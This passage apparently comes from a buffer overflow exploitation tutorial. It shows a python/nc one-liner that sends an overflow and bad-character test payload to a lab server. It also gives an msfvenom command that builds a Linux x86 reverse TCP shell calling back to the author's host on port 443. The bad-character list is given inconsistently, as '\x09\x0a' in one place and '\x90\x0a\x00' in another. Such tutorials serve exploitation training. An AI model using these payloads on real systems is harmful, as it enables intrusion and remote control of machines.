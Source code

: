 Our new code will be as follow.
```bash
echo $(python2 -c "print 'HELP'+'A'*68+'BBBB'+'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'")|nc 192.168.126.36 8080
```

We can see on the server side by using EDB that there is several chars that not in place which mean that they may be the bad chars we need to a void.

![bo-032.png](/assets/images/bo-032.png)
**Figure 32** Bad chars.

So, in that case the bad chars are `\x09\x0a`, so we need to a void these chars on our return address and on the reverse shell. I also like to add `\x00` for just in case that is bad char too, so, on our case the bad chars will be `\x09\x0a\x00`.

Now let's use `msfvenom` for create the reverse shell code in hex value, this reverse shell wil be use later on our code.
```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.126.32 lport=443 -b"\x09\x0a\x00" -f py -v shellcode
```

In my case I used x86 tcp reverse shell for linux, my local host is 192.168.126.32 and my local port is 443, the bad chars are `\x90\x0a\x00` and also I want that output to be in python format with variable named shellcode.
